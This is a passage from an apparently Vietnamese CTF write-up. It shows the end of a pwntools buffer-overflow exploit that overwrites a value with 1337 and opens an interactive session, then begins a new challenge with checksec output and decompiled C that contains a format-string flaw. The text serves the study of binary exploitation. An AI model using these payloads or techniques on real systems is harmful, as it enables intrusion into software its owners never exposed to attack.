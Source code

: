 ```py

    pl = b'A'*0xc + p32(1337)

    sl(b'admin')
    sl(pl)

    interactive()

if __name__ == '__main__':
    exploit()
```

## Interesting Functions

```sh
[*] '/home/alter/CTFs/VSL/Interesting_Functions/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Một bài khá hay về `Buffer Overflow` và `Format String`, hãy cùng xem IDA xem nó có những gì:

- `main()`:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-110h] BYREF
  char v5[267]; // [rsp+1h] [rbp-10Fh] BYREF
  int v6; // [rsp+10Ch] [rbp-4h] BYREF

  memset(&s, 0, 0x101uLL);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  menu();
  while ( 1 )
  {
    while ( 1 )
    {
      printf("> ");
      if ( (unsigned int)__isoc99_scanf("%d%*c", &v6) != 1 )
        return 1;
      if ( v6 != 3 )
        break;
      if ( s )
      {
        puts("You only have one chance to print string");
      }
      else
      {
        printf(v5);
        s = 1;
      }
    }
    if ( v6 > 3 )
      break;
    if ( v6 == 1 )
    {
```